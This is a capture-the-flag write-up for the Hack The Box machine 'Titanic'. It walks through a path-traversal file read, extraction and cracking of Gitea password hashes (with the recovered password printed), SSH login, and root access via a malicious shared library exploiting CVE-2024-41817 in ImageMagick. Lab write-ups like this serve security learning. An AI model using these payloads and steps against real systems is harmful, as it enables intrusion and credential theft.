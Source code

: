 # Titanic Write-up

<img src="https://labs.hackthebox.com/storage/avatars/eb5942ec56dd9b6feb06dcf8af8aefc6.png" width="200" height="200">

## Recon

### Nmap

`nmap -sC -sV 10.10.11.55`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
    |_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
    80/tcp open  http    Apache httpd 2.4.52
    |_http-title: Did not follow redirect to http://titanic.htb/
    |_http-server-header: Apache/2.4.52 (Ubuntu)
    Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Add host to `/etc/hosts`.

    echo "10.10.11.55 titanic.htb" | sudo tee -a /etc/hosts

## Exploitation

Titanic.htb main page:

![image](https://github.com/user-attachments/assets/71b40b1e-ff64-4f32-856d-54d159f23f17)

Book Your trip button

![image](https://github.com/user-attachments/assets/c4724f5d-2e45-43bd-aa4c-952e75998a42)

JSON file

![image](https://github.com/user-attachments/assets/2c105d92-c095-4a81-ae7a-f8fa08526f2e)

Request

![image](https://github.com/user-attachments/assets/c06f2384-b385-4148-a83f-e138ee65b364)

`/etc/passwd`

![image](https://github.com/user-attachments/assets/734d26d3-21bb-4858-a1fb-457834fd781f)

`/home/developer:/bin/bash`

![image](https://github.com/user-attachments/assets/003d0b52-b483-4573-a66f-85388ff02034)


Get the user flag!

![image](https://github.com/user-attachments/assets/09c488a2-b053-4995-9238-e1645627e117)

### Privilege escalation

Read `/etc/hosts`

![image](https://github.com/user-attachments/assets/2c5d511c-ba55-4c23-88e9-dbe511d1827c)

![image](https://github.com/user-attachments/assets/1cfb7600-e9eb-4e33-b328-486f4aaf510a)

Add `dev` subdomain to `/etc/hosts` on our machine!

    echo "10.10.11.55 dev.titanic.htb" | sudo tee -a /etc/hosts

dev.titanic.htb page

![image](https://github.com/user-attachments/assets/dcc13324-0065-4100-a93e-bf6aa610ecaf)

![image](https://github.com/user-attachments/assets/1172ba9c-2c0a-4ddf-b862-59a55bff68a2)

![image](https://github.com/user-attachments/assets/16f2df5c-2c1d-4d1d-b43a-b7a5f75fcc00)

![image](https://github.com/user-attachments/assets/ce09544c-a113-4fa2-aeac-8ae117163f06)

    curl --path-as-is 'http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/conf/app.ini'

![image](https://github.com/user-attachments/assets/5266dcb4-847a-4764-9000-5e95937617a1)

     /download?ticket=/home/developer/gitea/data/gitea/gitea.db

![image](https://github.com/user-attachments/assets/bc683fe5-e5e5-4f29-b383-8b0115d1bf71)

    curl --path-as-is 'http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db' --output database

![image](https://github.com/user-attachments/assets/06bd7efb-ce02-4a1e-875f-2c7263d42e50)

sqlitebrowser

![image](https://github.com/user-attachments/assets/cc4e3c59-08f5-4824-bcef-0229057b30b3)

    sqlite3 database.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes

![image](https://github.com/user-attachments/assets/a9e252e0-c0e2-4c04-80f9-47c651ef21a0)

`administrator`:`sha256`:`50000`:`LRSeX70bIM8x2z48aij8mw==`:`y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=`

`developer`:`sha256`:`50000`:`i/PjRSt4VE+L7pQA1pNtNA==`:`5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=`

Hashcat

`hashcat gitea.hashes /usr/share/wordlists/rockyou.txt --user`
    
    Session..........: hashcat
    Status...........: Running
    Hash.Mode........: 10900 (PBKDF2-HMAC-SHA256)
    Hash.Target......: gitea.hashes
    Time.Started.....: Sat Feb 22 11:19:03 2025 (21 secs)
    Time.Estimated...: Sun Feb 23 14:01:35 2025 (1 day, 2 hours)
    Kernel.Feature...: Pure Kernel
    Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#1.........:      298 H/s (2.90ms) @ Accel:256 Loops:32 Thr:1 Vec:8
    Recovered........: 0/2 (0.00%) Digests (total), 0/2 (0.00%) Digests (new), 0/2 (0.00%) Salts
    Progress.........: 6144/28688770 (0.02%)
    Rejected.........: 0/6144 (0.00%)
    Restore.Point....: 3072/14344385 (0.02%)
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:544-576
    Candidate.Engine.: Device Generator
    Candidates.#1....: adriano -> class08
    Hardware.Mon.#1..: Util: 79%
    
    sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528

SSH

`developer`:`25282528`

    ssh developer@titanic.htb

![image](https://github.com/user-attachments/assets/1c3f49e2-70b4-425a-8ccb-2ae58a39f6f8)

    find / -writable -type d 2>/dev/null

![image](https://github.com/user-attachments/assets/dc09cd23-fdbb-466a-9694-df5aec98e8ea)

![image](https://github.com/user-attachments/assets/fd13e376-4dc5-442b-935d-c17914022cd1)

![image](https://github.com/user-attachments/assets/bb69e97d-3805-4096-9082-583574a2bdfa)

CVE-2024-41817

https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8

![image](https://github.com/user-attachments/assets/3a07cc08-a5e8-4e5e-9129-41fabf153378)

/opt/app/static/assets/images/

exploit 

    gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    
    __attribute__((constructor)) void init(){
        system("cp /root/root.txt root.txt; chmod 754 root.txt");
        exit(0);
    }
    EOF

Get the root flag!

![image](https://github.com/user-attachments/assets/dfb2ea6f-058d-4184-83d8-4aa951fbcc00)
